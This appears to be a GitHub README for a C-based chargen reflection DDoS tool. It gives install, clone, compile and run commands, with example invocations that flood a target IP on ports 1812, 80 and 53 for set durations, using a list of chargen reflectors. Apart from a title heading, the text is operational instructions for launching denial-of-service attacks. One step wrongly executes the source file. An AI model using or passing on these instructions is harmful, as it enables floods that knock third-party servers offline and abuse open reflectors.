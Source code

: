 # DDOS-Attack-Chargen-Stable-Version
Chargen.c

-requirements:gcc package 
 apt-get update 
apt-get install gcc

-git clone https://github.com/Dev0uss/DDOS-Attack-Chargen-Stable-Version
-cd DDOS-Attack-Chargen-Stable-Version
 
-Compilation:
gcc -pthread Chargen.c -o chargen

-Execute
./Chargen.c IP 1812 chargen.txt 2 -1 3600

Other Examples:
# ./chargen TEST-IP 80 chargenliste.txt 2 -1 3600
# ./chargen TEST-IP 80 chargenliste.txt 1 -1 120
# ./chargen DNS-IP 53 chargenliste.txt 1 -1 120
